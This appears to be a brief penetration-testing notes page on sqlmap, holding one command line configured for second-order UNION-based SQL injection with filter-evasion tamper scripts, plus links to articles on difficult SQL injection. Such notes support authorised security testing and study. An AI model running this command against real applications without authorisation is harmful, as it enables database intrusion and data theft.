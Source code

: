 # sqlmap

TODO :)

```
./sqlmap.py \
--force-ssl \
-r req  \
--second-req=req2 \
-p id \
--level 3 \
--risk 1 \
--union-cols=27 \
--prefix="'" \
--suffix="-- a" \
--test-filter="MySQL UNION query ([RANDNUM])" \
--tamper=unionalltounion,hex2char \
--flush-session
```

### References

{% embed url="https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/sqlmap-tricks-for-advanced-sql-injection/" %}

{% embed url="http://www.thegreycorner.com/2017/01/exploiting-difficult-sql-injection.html" %}

{% embed url="https://www.nccgroup.trust/us/about-us/newsroom-and-events/blog/2019/march/did-you-order-a-sql-injection/" %}


